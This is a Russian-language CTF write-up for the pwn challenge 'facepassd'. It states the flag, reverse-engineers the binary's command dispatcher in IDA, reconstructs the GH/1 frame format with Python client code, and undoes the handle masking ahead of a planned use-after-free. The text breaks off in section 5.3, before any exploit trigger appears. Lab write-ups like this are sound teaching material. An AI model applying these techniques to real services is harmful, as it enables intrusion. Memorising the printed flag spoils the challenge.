# Лицо системы

Категория: pwn

Флаг: `flag{y0ur_f4c3_1s_y0ur_t0k3n}`

## 0. Что дали и что я буду искать

Дан один пользовательский файл `facepassd`:

```bash
file facepassd
sha256sum facepassd
```

Для разобранной ниже версии я получаю:

```text
ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped
da24c5f72634604776f62c3527017d4c7c61cd7d7dccbe081945b57922dc1af7
```

Слово `stripped` означает, что исходные имена функций удалены. Поэтому ida называет их `sub_2BBC60`, `sub_2BC580` и так далее. Это не мешает решению: вызовы, сравнения, константы и таблицы переходов остались в коде.

Важно: адреса ниже относятся именно к этому пользовательскому бинарю. Если бинарь пересобрать, адреса могут измениться. Поэтому в каждом разделе указан не только адрес, но и маршрут, по которому это место находится заново.

По условию есть временные биометрические профили, opaque handles, подписки турникетов и отзыв профиля. Поэтому сначала формулирую такую гипотезу:

1. создать профиль;
2. подписать на него турникет;
3. отозвать профиль;
4. проверить, пережила ли подписка удаление;
5. заставить новую запись занять ту же ячейку.

Это похоже на классический use-after-free, но одной догадки недостаточно. Дальше я подтверждаю каждый шаг в бинаре.

## 1. Начинаю с обычного интерфейса

Подключаюсь к выданному сервису:

```bash
nc <host> <port>
```

Сервис сам показывает доступные команды:



```text
B                         начать транзакцию
P <label> <template>      сохранить профиль
W <handle>                подписать турникет
D <handle>                отозвать профиль
C <route-proof>           применить транзакцию
```

Ввожу `M`. В справке появляется второй интерфейс `GH/1`:



Справка дает две важные зацепки:

1. заголовок начинается с байтов `GH`, затем идут версия и однобайтная команда;
2. те же буквы команд служат opcode внутри binary frame.

Именно отсюда я беру буквы `B`, `P`, `W`, `D`, `C`. На этом шаге это еще не догадки об opcode, а данные самого сервиса.

## 2. Как я с нуля нашел обработчики в ida

### 2.1. Почему `case 66` означает `B`

Из меню известна команда `B`. Из справки известно, что буква команды является одним байтом opcode.

Компьютер хранит символ `B` как число по таблице ascii:

```text
'B' = 0x42 = 66
'C' = 0x43 = 67
'D' = 0x44 = 68
'P' = 0x50 = 80
'Q' = 0x51 = 81
'W' = 0x57 = 87
'X' = 0x58 = 88
```

Чтобы не полагаться на память, отдельно проверяю код символа в терминале:

```bash
python3 -c 'print(ord("B"), hex(ord("B")))'
```

Результат:

```text
66 0x42
```

Поэтому первая разумная строка для поиска в ida - `case 66`.

### 2.2. Точный маршрут в ida

1. Открываю `facepassd` в ida и жду окончания auto-analysis.
2. Нажимаю `Alt+T` - `Search text`.
3. Ввожу `case 66`.
4. Включаю поиск по всем сегментам и комментариям.
5. Если ida находит несколько совпадений, перехожу к следующему через `Ctrl+T`.
6. Нужное место нахожу в небольшой функции `sub_2BB460` около `0x2BB4C9`.
7. Нажимаю `Space`, чтобы вместо graph view получить линейный список.
8. Нажимаю `F5`, чтобы посмотреть псевдокод switch.

Ida сама создает комментарий `case 66` после распознавания jump table. Это не символ из исходников и не моя догадка.



На скрине видна вся цепочка:

```text
movzx r11d, byte ptr [...]   читается один байт команды
add r11, -0x42              из opcode вычитается минимальный код B
cmp r11, 0x17               проверяется диапазон B..Y
jmp jpt_2BB4C5[...]         переход через таблицу
case 66                     исходное значение opcode равно 66
call sub_2BB9A0             обработчик B
```

Константа `0x42` здесь не является magic протокола. Это просто минимальный поддерживаемый ascii-код, от которого компилятор построил компактный индекс таблицы.

### 2.3. Получаю остальные обработчики

После найденной ветки листаю функцию вниз. У каждого case есть прямой `call`.

Ветки `C` и `D`:



Ветки `P` и скрытая `Q`:



Ветки `W` и скрытая `X`:



Так я собираю карту:

| case | ascii | команда | обработчик |
| ---: | ---: | --- | --- |
| 66 | `0x42` | `B` | `sub_2BB9A0` |
| 67 | `0x43` | `C` | `sub_2BC7E0` |
| 68 | `0x44` | `D` | `sub_2BC580` |
| 80 | `0x50` | `P` | `sub_2BBC60` |
| 81 | `0x51` | `Q` | `sub_2BDBE0` |
| 87 | `0x57` | `W` | `sub_2BBF60` |
| 88 | `0x58` | `X` | `sub_2BD7C0` |

Так я получаю адреса от видимой команды `B`, а не беру их готовыми.

Для удобства переименовываю функции клавишей `N`:

```text
sub_2BB9A0 -> cmd_begin
sub_2BBC60 -> cmd_profile
sub_2BBF60 -> cmd_watch
sub_2BC580 -> cmd_delete
sub_2BC7E0 -> cmd_commit
sub_2BDBE0 -> cmd_queue
sub_2BD7C0 -> cmd_export
```

Переименование необязательно и не меняет бинарь. Оно только делает псевдокод понятнее.

### 2.4. Как двигаться дальше, не зная адресов

После dispatcher адреса больше не ввожу вручную. В ida использую один и тот же маршрут:

```text
Enter     перейти в функцию под курсором
Esc       вернуться назад
F5        открыть pseudocode текущей функции
Space     переключить graph view и text view
N         переименовать функцию или переменную
Alt+T     найти текст во всем listing
Ctrl+F    найти текст внутри текущего pseudocode
```

Цепочка переходов:

| откуда | что заметить | куда перейти |
| --- | --- | --- |
| `B` | последний вызов перед возвратом plan | `sub_2BDEC0` |
| `P` | вызов allocator и return с `rol` | `sub_2BA9E0`, конец `P` |
| `W` | раскрытие handle и создание job | код после `sub_91D00` |
| `D` | раскрытие handle и изменение entry | код после `sub_91D00` |
| `C` | `phase == 1` и `phase == 2` | `sub_2BC920`, `sub_2BD000` |
| phase 1 | создание receipt | `sub_2BF6C0`, затем `sub_2BF900` |
| `Q` | switch по полю `A` | обработчики `a/t/p/r/c` |
| `X` | дополнительная проверка proof | `sub_2BF3A0` |

Если имя уже видно в вызове, нажимаю `G`, ввожу имя `sub_...` и перехожу к нему. Это только сокращение уже найденного маршрута, а не источник адреса.

## 3. Как я восстановил binary frame

Обычные команды я сначала вводил через `nc`. Для скрытых `Q` и `X` уже нужно отправлять бинарные данные.

### 3.1. Заголовок

Заголовок занимает 12 байт:

| offset | размер | поле | значение |
| ---: | ---: | --- | --- |
| `0x00` | 2 | magic | ascii `GH`, то есть `47 48` |
| `0x02` | 1 | version | `01` |
| `0x03` | 1 | command | ascii opcode |
| `0x04` | 4 | request id | `uint32`, little-endian |
| `0x08` | 4 | payload size | `uint32`, little-endian |

Например, пустой запрос `B` с request id 1:

```text
47 48 01 42 01 00 00 00 00 00 00 00
 G  H  1  B      request=1      size=0
```

Здесь `42` - шестнадцатеричное число `0x42`, то есть ascii-код `B`.

### 3.2. Поля payload

Каждое поле имеет tlv-формат:

```text
tag:1 | size:2 little-endian | value:size
```

Основные теги:

```text
T  transaction id
H  handle
L  label
V  template bytes
R  proof
A  действие скрытой команды Q
I  operation id или handoff id
```

Из справки и разбора обработчиков видно, что числа передаются как 8 байт little-endian. Например, поле `T=0x1122334455667788`:

```text
54 08 00 88 77 66 55 44 33 22 11
 T  len=8        value little-endian
```

### 3.3. Минимальные функции для frame

```python
import socket
import struct

def recv_exact(sock, count):
    data = b""
    while len(data) < count:
        part = sock.recv(count - len(data))
        if not part:
            raise EOFError("connection closed")
        data += part
    return data

def field(tag, value):
    if isinstance(value, int):
        value = struct.pack("<Q", value)
    return tag.encode() + struct.pack("<H", len(value)) + value

def frame(opcode, request_id, *fields):
    payload = b"".join(field(tag, value) for tag, value in fields)
    header = struct.pack(
        "<2sBBII",
        b"GH",
        1,
        ord(opcode),
        request_id,
        len(payload),
    )
    return header + payload
```

После подключения сначала приходит текстовый banner. Я дочитываю его до prompt `b": "`, после чего сразу отправляю frame. Дополнительного handshake в обработчике нет.

```python
HOST = "<host>"
PORT = 1337

sock = socket.create_connection((HOST, PORT))

banner = b""
while not banner.endswith(b": "):
    banner += recv_exact(sock, 1)

sock.sendall(frame("B", 1))
```

Ответ тоже начинается с 12-байтного заголовка:

```python
header = recv_exact(sock, 12)
magic, version, opcode, request_id, size = struct.unpack("<2sBBII", header)
payload = recv_exact(sock, size)
```

Разбор tlv и отправка одного запроса:

```python
def parse_fields(data):
    result = {}
    offset = 0

    while offset < len(data):
        tag = chr(data[offset])
        size = struct.unpack_from("<H", data, offset + 1)[0]
        offset += 3
        value = data[offset:offset + size]
        offset += size
        result.setdefault(tag, []).append(value)

    return result

def recv_frame(sock):
    header = recv_exact(sock, 12)
    magic, version, opcode, request_id, size = struct.unpack(
        "<2sBBII", header
    )
    if magic != b"GH" or version != 1:
        raise ValueError("bad frame")
    payload = recv_exact(sock, size)
    return chr(opcode), request_id, parse_fields(payload)

def request(sock, request_id, opcode, *fields):
    sock.sendall(frame(opcode, request_id, *fields))

    events = []
    while True:
        reply_opcode, reply_id, reply = recv_frame(sock)

        if reply_opcode == "E":
            events.append(reply)
            continue
        if reply_id != request_id:
            continue
        if reply_opcode == "!":
            raise RuntimeError(reply)
        if reply_opcode != opcode:
            raise RuntimeError("unexpected opcode")

        return reply, events

def number(fields, tag):
    return struct.unpack("<Q", fields[tag][0])[0]
```

`E` означает асинхронное событие подписки, `!` означает ошибку. Событие может прийти перед ответом, поэтому его нельзя принять за ответ на текущий request id.

## 4. Откуда я взял `rol` и зачем мне нужен `ror`

Это важное место, потому что без него handle и plan выглядят случайными 64-битными числами.

### 4.1. Plan после команды B

Возвращаюсь к обработчику `B`:

1. в dispatcher ставлю курсор на `call sub_2BB9A0`;
2. нажимаю `Enter`;
3. нажимаю `F5`;
4. в конце функции замечаю вызов `sub_2BDEC0`.



В `sub_2BDEC0` я вижу сборку сырого plan:

```text
epoch:16 | route:8 | route_id:32 | check:8
```



В assembly конец функции выглядит еще нагляднее:



Последняя операция имеет вид:

```text
rol(mask ^ raw_plan, rotation)
```

Из нее прямо следует:

```python
sealed_plan = rol64(mask ^ raw_plan, rotation)
```

`rol` означает rotate left - циклический сдвиг влево. Вышедшие слева биты не пропадают, а заходят справа.

Обратная операция к `rol(x, r)` - `ror(x, r)`, rotate right:

```python
raw_plan = ror64(sealed_plan, rotation) ^ mask
```

Инструкция `ror` математически обратна увиденной в ida инструкции `rol`.

### 4.2. Реализация поворотов

```python
MASK64 = (1 << 64) - 1

def rol64(value, count):
    count &= 63
    return ((value << count) | (value >> (64 - count))) & MASK64

def ror64(value, count):
    return rol64(value, 64 - count)
```

## 5. Разбираю P и восстанавливаю handle

Из dispatcher перехожу по `call sub_2BBC60`.

### 5.1. Ограничения входа и классы размера

В начале обработчика нахожу ограничения:

```text
1 <= len(label) <= 64
1 <= len(template) <= 256
```



Дальше вижу, как длина template превращается в class:





По сравнениям выписываю точные диапазоны:

```text
class 0: 1..16 bytes
class 1: 17..48 bytes
class 2: 49..112 bytes
class 3: 113..256 bytes
```

Удобные значения внутри диапазонов:

```text
class 0 -> 8 bytes
class 1 -> 32 bytes
class 2 -> 64 bytes
class 3 -> 128 bytes
```

Это не отдельные magic-размеры. Можно выбрать любое значение внутри соответствующего диапазона.

### 5.2. Как label превращается в bucket

Сначала здесь считается fnv-1a. В ida я нахожу начальную константу и множитель:

```text
offset basis = 0xcbf29ce484222325
prime        = 0x100000001b3
```

После fnv результат смешивается с секретом соединения и domain-константой `0x6c6162656c2d6768`. Старший байт результата становится bucket.

```python
def fnv1a(data):
    value = 0xCBF29CE484222325
    for byte in data:
        value ^= byte
        value = value * 0x100000001B3 & MASK64
    return value

bucket = mix64(
    fnv1a(label) ^ seed0 ^ 0x6C6162656C2D6768
) >> 56
```


`>> 56` оставляет верхние 8 бит, поэтому bucket имеет 256 возможных значений от 0 до 255.

### 5.3. Сырой handle

В конце `P` вижу, как entry превращается в число:

```text
generation:16 | bucket:8 | slot:40
```

